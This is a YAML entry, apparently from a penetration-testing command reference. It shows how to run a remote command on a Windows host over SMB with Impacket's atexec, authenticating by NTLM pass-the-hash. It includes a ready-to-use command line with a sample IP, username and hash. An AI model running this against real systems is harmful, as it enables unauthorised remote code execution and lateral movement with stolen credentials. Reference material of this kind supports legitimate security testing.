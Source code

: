 ```yaml
---
description: Schedule a task remotely over SMB using Impacket's atexec with NTLM Pass-the-Hash to execute a command.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  impacket-atexec -hashes 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 john@10.10.10.1 "whoami"

items:
  - Hash

services:
  - SMB
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation

references:
  - https://github.com/fortra/impacket
---
```


